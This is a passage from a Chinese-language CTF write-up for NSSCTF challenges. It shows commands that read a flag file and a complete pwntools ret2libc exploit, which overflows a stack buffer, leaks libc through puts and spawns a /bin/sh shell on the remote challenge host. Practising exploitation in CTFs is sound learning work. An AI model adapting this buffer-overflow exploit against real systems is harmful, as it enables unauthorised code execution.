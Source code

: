 该命令表示将容器内部的 5000 端口暴露出来，允许外部网络连接到该端口。
> 这种做法是错误的，不愧是大佬。。。

```python
find / -name "flag.txt"
/flag.txt
cat /flag.txt
NSSCTF{123456}
```
## 狠狠的溢出涅
> 记得栈对齐，忘记多少字节了，直接ljust填充

```python
payload1=b""
payload1 = payload1.ljust(offset,b'\x00')
```
```python
from pwn import *
from LibcSearcher import *
io = remote('node5.anna.nssctf.cn',28610)
#io = process('./pwn4')
#context.log_level ='debug'
elf = ELF('./pwn4')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

offset = 0x68
pop_rdi = 0x4007d3

payload1=b""
payload1 = payload1.ljust(offset,b'\x00')
payload1 +=   p64(pop_rdi) + p64(puts_got) +  p64(puts_plt) + p64(main_addr)

io.sendline(payload1)

io.recvuntil(b'Ok,Message Received\n')
puts_addr = u64(io.recv(6,timeout=1).ljust(8,b'\x00'))
print(hex(puts_addr))

libc = ELF('./libc-2.31.so')
#libc = elf.libc

base = puts_addr - libc.symbols['puts']

system_addr = base +  	libc.symbols['system']
binsh_addr  = base +  next(libc.search(b'/bin/sh'))

payload2 =b""
payload2 = payload2.ljust(offset,b'\x00')
payload2 +=  p64(pop_rdi) + p64(binsh_addr) + p64(0x400556) + p64(system_addr) 

io.sendline(payload2)
io.interactive()
```
## 口算题
> 逐行提前脚本即可
